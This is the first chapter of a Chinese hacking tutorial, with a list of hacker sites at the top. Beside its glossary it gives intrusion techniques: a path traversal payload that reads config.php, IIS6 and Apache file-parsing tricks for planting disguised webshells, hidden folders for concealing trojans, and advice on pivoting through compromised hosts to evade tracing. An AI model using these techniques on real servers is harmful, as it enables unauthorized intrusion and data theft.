- 马骏：http://majun1988.cnxr.com/?action=show&id=246
- sniperhg：http://blog.sniperhg.net/post/42.html
- 午渡：http://www.nzhack.net/dispbbs.asp?boardid=14&id=822
- 纯色：http://hi.baidu.com/happy88/blog/item/8cda00ef97458e3eacafd5a9.html
- woyigui：http://www.woyigui.cn/Notes-hacker-infiltration/
- 护生：http://www.jxroot.com.cn/?action=show&id=241
- 乐呵网：http://www.lehew.cn/read.php?tid=1437
- TOOLS：http://www.t00ls.net/thread-1935-1-1.html
- 二少：http://www.yaniedie.com/?action=show&id=137
- 可乐：http://www.52crack.com/blog/?action=show&id=345
- 安防技术论坛：http://bbs.sec520.com/read-htm-tid-30148.html
- hackest：http://www.hackest.cn/post/100/
- 天阳：http://bbs.tian6.com/viewthread.php?tid=12599&extra=
- 梦幻剑客：http://hi.baidu.com/ahacker86/blog/item/555cd330f852f2a05edf0ed2.html
- 知识型流氓：http://hi.baidu.com/lxcp10642/blog/item/9190388d3045ff1ab31bbaab.html
- 岁月：http://bbs.syue.com/thread-33826-1-1.html
- 糊涂小强：http://www.smxiaoqiang.cn/blog/217.html
- 华北黑客联盟：http://sdhacks.com.cn/bbs/read.php?tid=16
- amxku：http://amxku.net/ads/xp98-penet-Notes/
- 非安全中国网：http://www.sitedir.com.cn/
- 小帅：http://www.xsser.net/
- sai52：http://www.sai52.com/archives/878/
- 中国黑帽网络安全小组：http://forum.bhst.org/bbs/viewthread.php?tid=570&extra=page%3D1
- firefox：http://hi.baidu.com/hackloft/blog/item/b626f838c2ca2f2cb9998f57.html
- 和尚：http://hi.baidu.com/schutze/blog/item/25230e7aa24c8fe52773b359.html

### “本日值日生”

## 入侵前的号角


## 美术100年

## 笔记001 导读档案：入侵前的号角

凌乱的头发、在键盘上快速移动的手指、目不转睛地对着黑糊糊的显示屏——这也许就是你通过电影所了解到的黑客形象。其实，在实际生活中，让你很难想象得到黑客形象的巨大差别，说不定刚才向你问路的小伙子、刚刚和你一起应聘的中年人，甚至驾驶着公共汽车的司机都有可能是一名狂热的黑客爱好者。

虽然电影里常常以怪才和天才来塑造黑客的形象，但真正生活中的黑客肯定不是奇装异服、奇形怪状以及遇人遇鬼的代名词，他们就是一群普普通通的人，丢在人群里也很难锁定的那种。像我们这样的黑客爱好者也会面对一些实际的问题，比如：黑客合法吗？黑客真的无所不能吗？

其实不然，黑客也是人，和我们一样，甚至找不到工作、被老板炒鱿鱼都是他们可能面临的问题。他们能做到的只是我们通过努力一样可以达到，只不过看你的出发点是否正当。黑客技术和菜刀有一个共同点，那就是它们是灰色而没有倾向的，只是使用者赋予了它们不同的色彩。

不过，本人严重声明，反对任何形式的黑客犯罪活动，如果你用黑客技术玩过了界，违反了相关法律法规，那就是玩火自焚，咎由自取。

### 1.1 基础术语的了解

Webshell、肉鸡、端口……当你在这些名词之前不知所措的时候，你还会认为自己可以成为一名合格的黑客爱好者吗？如果把入侵比成一场战争的话，那么我们现在要做的就是学习基本知识。军队打仗的军人都要经过训练，这样在战场上才能冷静地思考，沉着地应战。那么，就开始上课了。

- 1. 后门

大家都知道，有些房子有正门和后门之分，后门和正门一样可以进入这个房子，其较之正门的最大优点就是隐蔽性高。电脑技术中所说的后门乃是抽象概念，意指隐蔽性高或不常用的、区别于常规操作所使用的一种出入口。

现今的网络上，后门形形色色，不过最多的还是两类，一种是基于 web 类的，就是下面要介绍的 webshell；另一种就是基于系统类的，也就是大家常常在网络上听到的“灰鸽子”之类的软件。

后门这个词汇通常是具有贬义在里面，但是它的正面称呼应该是“远程管理工具”。现在一般网管对远程网站进行维护管理，就是通过类似功能的工具来操作，所以说，后门是作为双刃剑的一个典型黑客技术。

- 2. Webshell

简单地讲，Webshell 就是一个使用 ASP、PHP 或 JSP 脚本编写的木马后门，也就是说这些脚本文件是基于 WEB 服务开放的服务器才有效。

当服务器不支持 PHP 时，你上传 PHP 类的文件是不会解析的，直接显示 PHP 文件源码。解析相当于翻译，两个语言不通的人是无法进行交流的，只有通过翻译他们才能对话。

Webshell 最大的优点就是可以通过防火墙的拦截，而且更具有隐蔽性。通常的木马后门会在控制者控制服务器的时候留下大量的日志文件，而通过 Webshell 控制的话，则只会在 WEB 日志下留下痕迹。



图 1

最后放一个 Webshell，以便自己下次进入这个服务器的时候更加方便。Webshell 的功能也很多，可以上传、下载文件，如果权限大的话，甚至可以执行系统的命令。因此，对于黑客来说，获得一个 Webshell 是快要沦陷一台服务器的重要标志，而对于管理员来说，则是受到大大威胁。

#### 3. 小马和大马

大家从字面应该就可以区分开来，“小”和“大”不仅意味着这两个脚本文件的体积，更重要的是，大马的功能比小马的功能要强得多。如前面图 1 所示，那就是大马，而著名的 diy.asp 小马就是如图 3 所示的界面，它的功能很少，只能实现上传文件。一般小马的上传功能，就是为了把大马上传到目标服务器，小马扮演的角色就相当于是大马的铺路石、马前卒。





图 2

图 3

#### 4. 木马

几乎每本书讲到木马这个章节的时候，基本都会提《荷马史诗》里面讲的《特洛伊木马》的故事。也许你觉得这个故事很老套，但是谁让它这么经典呢？只有木马这个古老的传说才能更加生动地表达这个现代技术的名字。

大家看过布拉德·皮特主演的电影《特洛伊》了吗？十年战争的最后，顽强抵抗的特洛伊城久攻不下，攻方故意留下一个藏有士兵的木制大马并假装退兵，而守方以为这个木制大马是敌人逃跑太急而丢下的，并当成战利品运到城内。结果在夜晚，木制大马里的士兵悄悄出来，里应外合打开城门，杀了对方一个措手不及。在这个故事里，涉及到的那个木制的马，就相当于现在的木马，而藏在木马里的士兵就相当于现今木马程序中的恶意载荷。

马的各种各样的功能。而把木马运到城内的一方相当于现在网络中不计其数的网民，当然，这要看网民的安全意识。令人可悲的是，现在的网民在安全意识方面都不太高，尤其是在我们国家，许多不知情的电脑用户会不知不觉地运行黑客们的木马。

在电影中，受害方以为这个东西是战利品而对它放松了警惕，如果受害方对那个木马进行检查或看守，或者将计就计，就会有新的历史了。

## 5、肉鸡

这个词汇真是形象又生动，只是不知道是舶来品还是国产词汇。当你的电脑被黑客掌控后，那你的电脑就是黑客的傀儡了，黑客可以利用这台电脑做一切他想做的事情，比如安装一个 DDOS 攻击工具，把你的电脑“光荣”地加入黑客的僵尸攻击军团，任其调遣，成为帮凶，危害网络。

我想，肉鸡用出自《鸿门宴》里面的一句话来形容最为妥帖：“如今人方为刀俎，我为鱼肉”，意思是比喻生杀之权掌握在他人手里，自己处于被人宰割的地位。肉鸡和黑客的关系便是如此。

## 6、端口

端口这两个字眼大家肯定会经常碰到，其英文为 PORT，可以简单地认为是计算机与外界通信交流的出口。对于端口，可以用类比的方式来理解一下，比如端口可以被理解成是应用程序与应用程序之间用来通信和传送数据的通道，它就像是系统的一道门，通过这道门，能够直接地将数据发送到某一个指定的应用程序，以便该应用处理这些特定的数据。

比如，我们要打开 www.baidu.com，那么我们本地计算机就要开一个端口和 baidu.com 的服务器上的 80 端口相连来实现信息的交流与处理。那么我们如何查看本地计算机上开放的端口以及和外界连接的端口号呢？可以依次选择“开始”->“运行”，然后在输入框中输入 `CMD`，会出现一个类似 DOS 窗口的界面，如图4所示。





图4

图5

然后在此窗口中输入命令：`netstat -an`，会出现如图5所示的结果。

我们可以很清楚地看到，一共有四列，第一列表示的是协议，第二列表示的是本地的 IP 及开放的端口，第三列的 Foreign Address 表示外界的 IP 及开放的端口，第四列的 State 表示端口的状态，Listening 表示是监听状态，等待外界来连接，Established 则表示处于连接状态。这一项还包括有其他状态，大家就先了解这两种，以后遇到了其他的状态再为大家解释。

弄清楚各列的含义后，我们可以很清楚地看到本地的 IP 为 119.98.94.223，本地的端口号 2205 与外界 IP 为 220.181.6.18 的 80 端口相连。学好端口这个词汇，还需要学习更多的连带知识，所谓知识是成系统而不是孤立的，端口之间通信是需要双方遵循共同的协议才能互通，下面我把协议这个术语给大家介绍一下。

## 7、协议

像我们人类的语言一样，协议也有多种，它们供各种应用程序采用。如果两个应用程序都支持使用 TCP/IP 协议栈中的某种协议进行传输，那么它们就可以在使用 TCP/IP 协议栈的 Internet 上进行连接并交换数据。

接下来再说说 TCP/IP 协议栈。对于 TCP/IP 协议栈有一个标准的参考模型，但是这一模型只是参考而已，并非最终的标准，它就是著名的 OSI（Open System Interconnect，开放式互联系统）七层模型。而目前在 Internet 上广泛使用的 TCP/IP 协议栈采用的实际上是 DoD（Department of Defense，美国国防部依据 OSI 设计）模型，它是一个四层模型，完全参考了 OSI 模型并以 OSI 模型为基础制定出来的，是一种规范，大家都遵守，才不会有各种交流的障碍。

## 8、外网和内网

这两个怎么区分呢？以我个人碰到的最常见的情况来看，一般可以用数据是不是通过路由器来作为一个简单的判断标准。如果我们上网是几台电脑通过几根网线插入路由器上网的话，那么这几台电脑之间形成的局域网则为内网，而且它们之间可以相互称之为内网。而外网则刚好相反，一般一台电脑直接通过 Modem 的 ADSL 拨号功能上网，而这台电脑所处的网络环境我们就称之为外网了，它对外所显示的 IP 地址就是公网 IP。

另外，上面的判断并不是标准的，完全是我个人的一点经验之谈，请记住：只要无法访问 Internet 的网络，那一定是个内网，而能够访问 Internet 的网络，则至少有一台电脑与外网交换数据。

## 9、注入

这里的注入一般是指脚本上的注入，攻击者把 SQL 命令插入页面请求的查询字符串，欺骗服务器执行恶意的 SQL 命令。由于在某些表单中，用户输入的内容直接用来构造动态的 SQL 命令，或作为存储过程的参数，从而可以获取想得到的密码或者其他服务器上的资料。总的来说，就是 WEB 设计者所编写的程序对从客户端提交的数据过滤不严而导致的信息泄漏，甚至会导致服务器的沦陷。

## 10、Wscript.shell

Wscript.shell 是 Windows 自带的组件，因为它过于强大，所以经常被黑客加以利用。它可以调用系统内核运行的 DOS 基本命令，与此对应的还有三个危险组件，它们分别是：FSO、Shell.Application、WScript.Network。

这几个组件的存在与否直接关系到黑客是否能成功攻陷你的服务器，所以，在不需要这些组件的情况下，我们应该尽量避免这些组件的存在。Wscript.shell 可以通过在运行里输入：`regsvr32 /u c:\winnt\system32\wshom.ocx` 命令来卸载，而 Shell.Application 组件可以通过在运行里输入：`regsvr32 /u c:\winnt\system32\shell32.dll` 命令来卸载。

## 11、跳板

我们可以把跳板比喻成一件伪装的外衣或面具，当我们戴上面具在熟悉的人面前出现时，他们是很难分辨面具下的面孔究竟是谁，跳板的作用大概也是如此。我们知道，现在的黑客都不会把自己的真实地址暴露出来，其中很重要的就是 IP 地址。如果真要是查起来，是很容易找到本人的。那么，如果我先通过代理或者 VPN 连到国外，或者连到其他省份，这样在攻击的时候，在被攻击方的日志里留下的就是被我控制的机器的 IP，而这些被我控制的机器就叫作跳板。

实际上跳板不止包括电脑，还包括 cisco 路由器等其他网络设备，而 VPN 也可以算作是跳板的另一种方式。但这里要提醒的一点是，理论上跳板的次数越多，找出真正的操作者的困难就越大。其实，如果真是跳了四到五次以后，你就会发现控制对方的电脑会变得越来越迟钝，也就是说跳多了以后，会导致网络质量的下降，而快速的网络质量在入侵过程中是不可缺少的，权衡利弊，自己考虑吧。

## 12、VPN

VPN 的全称为 Virtual Private Network，直译过来就是“虚拟专用网络”，我们可以把它理解成为虚拟出来的企业内部专线，它可以通过特殊的加密通信协议把连接在 Internet 上的、位于不同地方的两个或多个企业内部网之间建立一条专有的通信线路，这就好比是架设了一条专线一样，但是它并不需要真正地去铺设光缆之类的物理线路。如此一来，这也为黑客们隐藏自身提供了方便，假如黑客得到了一个 VPN 的账号，那么通过拨号上去再进行攻击的话，一般不会暴露自身。

## 13、权限

权限这个术语不得不提，我们平常使用电脑，对这个电脑就拥有着全部控制权限，一般称之为 Administrator 权限。而许多 IIS 服务以及一些脚本文件都是以低于这个权限在运行的，所以权限是有大小之分的。就像我们电脑里被禁用的 GUEST 用户一样，它可以做的事情 Administrator 一样可以做，但 Administrator 能做的一些事情 GUEST 却做不了。打个比方，就像职场里的经理和员工一样，职位不同，权利不同，所能调度公司的资源的大小就不同。不过员工通过自己的努力会提升为经理，这就是提权了，黑客们总是希望自己能够完全控制着其他电脑，所以会用各种手段或方法来达到这一目的。

好了，这些基本术语就讲到这里，当然，这么一点知识是远远不够的，不过是让你先大概地了解一下这个黑客世界。只不过，你学好了、学正了，就会得到大多数人的认可，可以做一个优秀的网络管理员，可是要是观念坏了，你有可能走上犯罪的道路。

### 1.2 服务器相关特性

在这里我要为大家讲到的就是关于 Windows 和 *nix 服务器下一些特殊的地方，一些在入侵过程中可以给我们带来重要信息的小技巧。有时候，说不定绞尽脑汁也没有解决的问题，这里有可能给你带来希望哦。

#### 1.2.1 Windows 下的解析特性

在这里，我们不得不提到一个 Windows 设计产品里的 Windows Server 2003（简称为 Win2k3），在 Win2k3 下有一个致命文件解析漏洞，当我们在 Win2k3 的机器上创建一个以“1.asp”为名的文件夹（注：不是文件名，而是文件夹的名字），然后只要是通过网址访问存放在该文件夹下的文件的话，被访问的文件均会被缺省解析为 .asp 文件。如访问 `http://192.168.1.203/1.asp/diy.gif`，就会把 `diy.gif` 以 asp 文件来解析，这就给伪装成图片后缀的 asp 木马带来了可乘之机，如图6所示。





虽然这个只对于 Win2K3 有效，但令人欣慰的是，在 Windows 服务器当中，使用 Win2K3 系统的服务器还真不少。

#### 1.2.2 Windows 对 ../ 的支持

大家在 Hack 过程中，会遇到过滤不严的服务器，这样基本就可以让我们操作该服务器上的其他文件了，比如源代码泄露漏洞就是一个很好的例证。这里拿 Angel 分析的 Molyx Board 来让大家了解一下这个特性，因为其中的文件 `attachment.php` 缺乏对 Attach 变量有足够的过滤，从而导致远程攻击者可以构造这个变量访问该服务器上允许访问的文件。

如在这样一个 URL 中：`http://www.test.com/attachment.php?id=684&u=3096&extension=gif&attach=1105910809.gif&filename=1.gif`，这个 `attachment.php` 就会把服务器上的 `1105910809.gif` 文件的内容返回到浏览器上。后面的 `filename` 只是上传时的文件名字，这个变量不用管，如果我们发送一个请求，构造 Attach 变量为 `../../../../../../../../includes/config.php`，这样我们就可以读到一些配置文件的内容了，而配置文件里都是一些敏感信息。

这是 `../` 在脚本文件里的应用。除此之外，在隐藏文件时也有很大的用处，如我们在 CMD 下输入 `md z..\`，然后在相应的目录下找到这个文件，你会发现删除不了这个文件夹，而且也进入不了这个文件夹，如图7所示。

怎么样，按普通的方法是进不去的，我们如果在这个文件夹下放一个木马或者其他不想让人知道的文件的话会是什么效果呢？呵呵，细心的朋友会发现，不能进去，那我们怎么将自己的文件放进去呢？其实我们只要在“运行”里输入相对应的文件路径名就可以了。

上例的 `z..\` 是在 c 盘目录下，我们只要在运行中输入 `c:/z..\` 就可以进入了。是不是有点玄乎呀？还有一个问题不知道大家注意到了没有？那就是上一个例子我用的是 `/`，而第二个例子我用的是 `\`，这就是我要强调的地方：

> 在 IIS 中，`/` 和 `\` 是没有多大区别的，也就是说，即使你输入了 `\`，IIS 也会自动帮你解析成 `/` 的。但在脚本文件里，这是两个符号，代表着不同的意思。所以说，大家如果在 `/` 被过滤的情况下，试一下 `\` 或许就会成功。

#### 1.2.3 Windows 对空格和 . 的忽略

大家知道在脚本语言中，如 ASP 和 PHP，空格和 `.` 都是字符，是有特殊意义的。但是在 Windows 下，空格和 `.` 直接会被忽略掉，当然，我这里是指在文件的命名上。比如你现在新建一个 test.txt，然后重命名一下，在文件名后加空格或者 `.`，变成 test.txt. 或者 test.txt（注意有个空格），无论你加多少，回车后你会发现还是 test.txt。

这一点在哪里可以应用到呢？就是上传！有些上传处理的文件对上传的文件过滤得不严，我们可以通过这种方式上传脚本木马，这个会在以后的章节中为大家讲到的。

#### 1.2.4 Apache 的解析问题

Apache 也是一款提供 WEB 服务的软件，其拥有处理速度快、运行性能稳定等特点。但是 Apache 也爆出过一个致命的解析漏洞，那就是会把 test.php.rar 等类似文件当作 test.php 文件来解析。

大家都知道，一些 asp、php 后缀名的文件是不能直接上传的，这里 Apache 为我们提供了一个思路，使得可以上传任意这类文件达到拿 Webshell 的目的。如这样的一个 URL：`http://127.0.0.1/config.php.1111`，看看效果吧，如图8所示。



看到了吧？解析成功了。其实我们可以把后缀名改得更常用一些，如 gif、swf、rar 等。

#### 1.2.5 不同系统对大小写的敏感问题

大家都知道在 Windows 下，是对大小写不敏感的，也就是说 test.txt 和 TEST.txt 是一个效果。但是在 *nix 下却不同，它对大小写非常敏感，这一点尤其体现在 WEB 入侵中，我们在猜 WEB 目录的时候，要对症下药，这样效果才明显。

